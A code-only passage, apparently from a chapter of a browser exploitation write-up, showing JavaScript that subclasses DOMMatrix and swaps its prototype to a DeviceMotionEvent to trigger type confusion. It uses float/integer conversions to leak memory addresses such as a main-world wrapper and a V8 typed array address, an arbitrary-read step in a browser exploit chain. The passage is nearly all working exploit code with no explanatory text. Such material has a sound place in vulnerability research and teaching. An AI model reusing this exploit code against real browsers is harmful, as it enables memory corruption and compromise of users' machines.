 ![](./img/chapter6/device_motion_data_.png)

```js
    class SubMatrix extends DOMMatrix {
      constructor(addr) {
        let input = matrixInput;
        input[10] = itof(BigInt(addr - 0x18));
        super(input);
      }

      readContent() {
        return super.interval;
      }
    }
    
    var motionEvent = new DeviceMotionEvent({});
    function readFrom(i, subMatrix) {
      motionEvent['a' + i] = 1;
      if (i < loopCount) {
        SubMatrix.prototype.__proto__ = {};
      } else {
        SubMatrix.prototype.__proto__ = motionEvent;
      }
      motionEvent.interval;
      let addr = subMatrix.readContent();
      return addr;
    }
    let mainWorldMatrix = new SubMatrix(imgAddr + 0x8);
    for (let i = 0; i < loopCount; i++) {
      readFrom(i, mainWorldMatrix);
    }
    let mainWorldWrapper = Number(ftoi(readFrom(loopCount, mainWorldMatrix)));
    let v8AddrMatrix = new SubMatrix(mainWorldWrapper);
    let v8TypedArrayAddr = Number(ftoi(readFrom(loopCount, v8AddrMatrix)));
```
